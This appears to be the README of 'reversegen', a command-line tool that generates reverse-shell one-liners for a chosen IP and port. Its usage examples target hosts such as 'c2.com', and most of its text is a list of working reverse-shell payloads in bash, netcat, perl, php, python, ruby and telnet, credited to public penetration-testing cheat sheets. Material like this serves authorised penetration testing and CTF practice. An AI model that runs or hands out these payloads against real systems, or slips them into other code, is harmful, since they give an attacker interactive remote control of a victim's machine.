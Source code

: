 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` and rapidly paste it) and writes it to a file in case you need it later.

## Installation

```
chmod +x reversegen.py
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen <Method> <IP> <Port> [-f fileName]
```

Example of usage: 

```
reversegen python 192.168.1.10 4444
reversegen python 10.10.1.14 4444 -f revpy_10.10.1.14_4444.txt
reversegen python 10.10.1.14 4444 -f ~/rev
reversegen python c2.com 4444
```

Example of copying the result:

```
reversegen bash 10.10.1.14 1234 | xclip -selection clipboard
reversegen python 10.10.1.14 4444 -f revpy_10.10.1.14_4444.txt | xclip -selection clipboard
reversegen python 10.10.1.14 4444 -f ~/rev | xclip -selection clipboard
reversegen bash c2.com 1234 | xclip -selection clipboard
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`

- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`

- netcat: `nc -e /bin/sh IP PORT`

- netcat2: `/bin/sh | nc IP PORT`

- netcat3: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`

- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`

- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
